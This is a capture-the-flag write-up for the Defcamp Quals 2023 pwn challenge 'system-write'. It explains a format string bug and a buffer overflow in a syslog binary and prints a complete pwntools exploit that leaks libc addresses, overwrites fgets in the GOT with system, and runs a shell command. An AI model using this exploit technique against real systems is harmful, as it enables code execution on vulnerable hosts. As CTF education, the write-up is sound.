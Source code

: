 ```yaml
---
title: system-write
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-write [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Wait what? We can write data, but where?

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog-write
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols	  No	0		4		syslog-write
```
We have PIE disabled and Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find numerous vulnerabilities. First a buffer overflow is present in the ``main`` function, when we read the "log level":
```c
	printf("Enter the log level (LOG_INFO, LOG_WARNING, LOG_ERR, etc.): ");
	__isoc99_scanf(" %[^\n]",local_222);
```
Sadly, we can't do much with it initially, as the function does not return. Every exit point is covered by ``exit()``.

Another vulnerability that is evident is the fact that our input gets passed directly to ``syslog``. What is great about this is that ``syslog`` uses a format string as its second argument. So we have a format string vulnerability.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

So first we obviously have to leak some data. We leak a whole lot of addresses from the stack by passing a bunch of ``"%x"`` to ``syslog``. We manually identify the return for the ``main`` function. We can make our lives easier by passing a bunch of "a" characters to the vulnerable buffer, to create a pattern of "a" characters leading up to the return address.

After leaking and checking in the debugger, we find out the return address for main leads to ``__libc_init_first``. We find the libc version using the [libc database](https://libc.blukat.me/) and we save some offsets to ``system`` from there. In the exploit we next calculate the address for ``system`` and use a classic arbitrary write primitive from the format string vulnerability. We overwrite the address of ``fgets``, found in GOT, two bytes at a time (to avoid long printing times). Now, our next input to fgets will get interpreted as a shell command. But how can we control it now that ``fgets`` is compromised? Easy, we can reuse the buffer overflow from the earlier ``scanf`` to overwrite it with a command. The exploit is below:

```py
#!/usr/bin/env python3

from pwn import *

is_remote = False
target = process("./syslog-write")
#target = remote("34.159.3.30", 31549) 

fgets_gotplt_addr = 0x00404048
fgets_gotplt_addr_next = 0x0040404a

if is_remote:
    system_offset = 0x27060 # from init_first
else:
    system_offset = 159856 # from init_first


# Leak a bunch of addresses
target.sendline(b"1")
target.sendline(b"a" * 0x222)
target.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x")

if is_remote:
    target.sendline(b"2")
    print(target.recvuntil(b"syslog-write"))
    leak = list(reversed(target.recvline().split()))

    print(leak)
	# Find the return address using the "AAAA" pattern
    for i in range(len(leak)):
        if leak[i] == b"61616161":
            libc_init_first_leak = leak[i-1]
            print(libc_init_first_leak)
            libc_init_first_leak = int(libc_init_first_leak, 16)
            break

else:
	# get the addresses manually on local
	# I had some issues with reading the syslog
    libc_init_first_leak = input()

    print(libc_init_first_leak)
    libc_init_first_leak = int(libc_init_first_leak, 16)
    print(hex(libc_init_first_leak))

# Find system address
system_addr = p64(libc_init_first_leak + system_offset)
print(f"System addr: {hex(libc_init_first_leak + system_offset)}")

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr)

# You have to make sure the stack is correctly aligned
# and that the parameter access (%11$hn and %12$hn) leads to the correct addresses
# Use a debugger!
payload = "%{}c%11$hn%{}c%12$hnbbbbbbb".format(x, y-x).encode()
print(payload)

# Overwrite fgets with system
target.sendline(b"1")
target.sendline(p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next)) # honestly don't remember if this really matters
target.sendline(payload + p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next))

# run /bin/cat flag.txt
target.sendline(b"1")
target.sendline(b"A" * 10 + b"/bin/cat flag.txt") # overflow and win

target.interactive()
```

#### Flag

```CTF{61534936dc22499d88206f04c36ccda47290ad4656345033c6c88f06a86a2b92}```
